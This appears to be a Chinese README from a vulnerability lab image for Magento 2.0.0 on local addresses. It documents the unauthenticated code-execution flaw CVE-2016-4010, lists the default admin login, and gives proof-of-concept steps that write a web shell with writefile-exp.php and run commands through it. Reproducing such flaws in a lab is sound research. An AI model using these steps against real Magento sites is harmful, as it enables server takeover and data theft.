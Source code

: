 ### 环境说明

* src/magento/2.1.6

  * 本镜像目前无法使用

* src/magento/2.0.0

  * 后台地址

    http://127.0.0.1/index.php/admin

  * 管理员账号

    admin/admin123



## Magento代码执行漏洞(CVE-2016-4010)

测试镜像

- src/magento/2.0.0

要求

- 目标站点的Magento开启了REST API
- 目标站点首页需要存在包含关键字 "guest-carts" 的JS代码 

影响版本

- magento<= 2.0.6

参考链接

- [Magento未授权远程代码执行漏洞(CVE-2016-4010)的分析与利用](https://github.com/brianwrf/Magento-CVE-2016-4010)

Poc

1、访问url  `http://172.17.0.2/index.php/checkout/`，添加任意商品到购物车并点击购物车付款

2、在付款页面填写表单，并点击update提交，在发送的post请求中，查找如下结构的url：

`http://172.17.0.2/index.php/rest/default/V1/guest-carts/c8216937e28f47986da576d2644f0e8b/billing-address`

记录其中的32位16进制数

3、使用`writefile-exp.php`进行测试，将获取的32位数作为第二个参数

```shell
php writefile-exp.php "http://172.17.0.2/index.php c8216937e28f47986da576d2644f0e8b /var/www/html/shell.php
```

4、访问`http://172.17.0.2/shell.php?0=ls%20-al`，验证shell是否写入成功